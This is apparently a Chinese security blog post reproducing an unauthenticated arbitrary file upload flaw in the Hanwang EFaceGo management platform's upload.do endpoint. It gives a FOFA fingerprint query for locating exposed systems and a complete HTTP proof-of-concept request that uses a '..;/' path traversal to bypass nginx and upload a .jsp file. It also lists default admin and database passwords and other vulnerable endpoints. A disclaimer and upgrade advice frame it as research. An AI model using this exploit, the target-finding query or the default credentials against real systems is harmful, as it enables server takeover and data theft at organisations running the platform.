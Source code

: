 #  【漏洞复现】汉王EFaceGo upload.do 任意文件上传漏洞  
PokerSec  PokerSec   2025-07-09 01:01  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
       汉王e脸通综合管理平台是一个集生物识别、大数据、NFC射频、计算机网络、自动控制等技术于一体，通过“人脸卡”及关联信息实现多种功能智能管理，打造从云端到终端一体化应用，广泛应用于智慧园区、社区、工地等领域的综合管理平台。汉王EFaceGo upload.do 接口存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限。  
## fofa  
```
icon_hash="1380907357"
```  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMQEYJXvPWr9Ts2MwvtJI0YHt8kz5V7xAG8XNB96tFRSmKZVXs0HzvtA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
POST /manage/intercom/..%3B/..%3B/manage/resourceUpload/upload.do HTTP/1.1
Host: 192.168.168.135:8100
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Length: 199

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: image/jpeg

test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMY14rLuz5NLqjmCA3XQibCb4VibbwH8DuNn2uNDIribZU7oiatHArKS8cBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibM9HLgibmmR4FGaW3mDhkOUJb4nEQdJibibHm0Ogwzz7juxZNaonc9YxXng/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
系统主serverjar文件采用了加密，从内存中dump出类信息：  
  
1、绕过nginx反向代理限制   
  
tomcat在规范化处理url时会将/..;/替换为/../但是nginx不会做特殊处理，所以就可以在tomcat侧实现路径穿越  
  
2、系统中一些白名单路由：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMhWVGVKopcrw1ialQvq7Q8Fz7Qlkq4OvOJyJt50iaXpF2WJC4aqJMjkOg/640?wx_fmt=png&from=appmsg "")  
  
  
webapps\manage\WEB-INF\lib\iface.server-1.0.jar!\com\hanvon\iface\web\controller\operationManage\ResourceUploadController.class  
  
文件上传，并未做限制，直接获取文件类型进行拼接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMgLfecdhjlb9ht7WCyLiam2hce3losRURnSgicricB41DgHsSntiaRslDPQ/640?wx_fmt=png&from=appmsg "")  
  
系统默认密码  
```
admin/123654
```  
  
数据库配置,采用自带加密：  
  
```
root/kq_123654
```  
  
目前被公开包括queryAlarmEvent.do、queryBlackList.do、queryManyPeopleGroupList.do、getGroupEmployee.do接口sql注入、  
exportResourceByFilePath.do、fileDownload.do、imgDownload.do接口存在任意文件读取漏洞、uploadMeetingFile.do接口存在任意文件上传漏洞。  
## 修复意见  
  
目前官方已发布漏洞修复版本，建议用户升级到安全版本：  
  
https://hwzy99.com/  
  
  
  
如有侵权，请及时联系删除。  
  
  

